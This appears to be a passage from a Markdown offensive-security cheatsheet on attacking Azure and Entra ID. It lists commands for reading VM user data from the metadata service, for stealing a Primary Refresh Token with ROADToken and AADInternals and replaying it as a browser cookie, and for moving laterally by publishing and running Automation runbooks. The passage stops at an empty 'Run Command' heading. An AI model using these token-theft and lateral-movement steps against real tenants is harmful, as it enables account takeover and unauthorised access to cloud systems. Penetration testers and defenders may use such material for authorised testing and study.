 ## Authenticated - User Data
* https://learn.microsoft.com/en-us/azure/virtual-machines/user-data
* https://github.com/r1cksec/cheatsheets/blob/main/windows/azure-arm-api.md

```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://<vm>/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

## Authenticated - Application Proxy
* https://learn.microsoft.com/en-us/azure/active-directory/app-proxy/what-is-application-proxy

```
portal.azure.com > Azure Active Directory > Enteprise applications > Application proxy
portal.azure.com > Azure Active Directory > Enteprise applications > All applications > Add filters > Is App Proxy
```

## Pass the Primary Token
* https://github.com/r1cksec/cheatsheets/blob/main/windows/azure-arm-api.md
* https://github.com/dirkjanm/ROADtools
* https://github.com/Gerenios/AADInternals

```
Get nonce for request validation using ARM API.:

ROADToken.exe <nonce>
Get-AADIntUserPRTToken

Login using adding Token via Chrome Developer Tab:
Application > Cookies > login.microsoftonline... > Name: x-ms-RefreshTokenCredential > Value: <PrimaryRefreshToken> > HttpOnly: Check
```

## Lateral Movement - PowerShell Runbook
* https://github.com/r1cksec/cheatsheets/blob/main/windows/az.md
* https://github.com/r1cksec/cheatsheets/blob/main/windows/az-powershell.md

```
az automation account list

Import-AzAutomationRunbook -Name <runName> -Path <local\path\to\ps1> -AutomationAccountName <name> -ResourceGroupName <name> -Type PowerShell -Force -Verbose
Publish-AzAutomationRunbook -RunbookName <runName> -AutomationAccountName <name> -ResourceGroupName <name> -Verbose
Start-AzAutomationRunbook -RunbookName <name> -RunOn <workGroup> -AutomationAccountName <name> -ResourceGroupName <name>
```

## Lateral Movement - Run Command
* https://github.com/r1cksec/cheatsheets/blob/main/windows/az-powershell.md
